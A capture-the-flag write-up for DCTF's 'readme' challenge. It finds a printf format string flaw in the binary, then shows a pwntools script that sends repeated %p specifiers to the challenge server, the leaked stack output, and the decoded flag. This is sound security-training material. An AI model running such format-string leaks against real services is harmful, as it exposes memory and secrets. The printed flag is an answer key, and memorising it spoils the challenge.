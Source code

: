 # Readme

## Description

Read me to get the flag.

`nc dctf-chall-readme.westeurope.azurecontainer.io 7481`

[readme](readme)

## Solution

First step let's decompile the binary with Ghidra. In the `main` function (the binary is not stripped) we can easily find the function `vuln` and after a brief looking it was easy to spot the format string vulnerability: there is a `printf` function with a user-controlled buffer.

![img1](img/img1.png)

The idea is send some `%x` / `%d` / ` %s` / `%p` in order to dump the flag just readed and placed in the `flag_buffer` array.

```python
from pwn import *

elf = ELF('./readme')
p = remote('dctf-chall-readme.westeurope.azurecontainer.io', 7481)
payload = '%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p' #bounch of %p

p.sendline(payload)
p.recvline()
p.interactive()
```

The output of the python script is:

```
┌──(kali㉿kali)-[~/Desktop/dragonsec/readme]
└─$ python3 readmyb00th0l3.py
[*] '/home/kali/Desktop/dragonsec/readme/readme'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to dctf-chall-readme.westeurope.azurecontainer.io on port 7481: Done
[*] Switching to interactive mode
hello 0x7ffe59b6a440(nil)(nil)0x60x6(nil)0x55c5388bc2a00x77306e7b667463640x646133725f30675f0x30625f656d30735f0x7f7300356b300x70257025702570250x70257025702570250x7025702570257025[*] Got EOF while reading in interactive
```

Now with a simple recovery of the stack dumped we can spot the flag:

```
  RAW BYTE        ASCII    ASCII (inverted little-endian)
55cff83cd2a0     --junk--
77306e7b66746364 w0n{ftcd dctf{n0w
646133725f30675f da3r_0g_ _g0_r3ad
30625f656d30735f 0b_em0s_ _s0me_b0
7ff900356b30     .ù5k0    0k5}
7025702570257025 p%p%p%p%
7025702570257025 p%p%p%p%
7025702570257025 p%p%p%p%
```

#### **FLAG >>** ``dctf{n0w_g0_r3ad_s0me_b00k5}
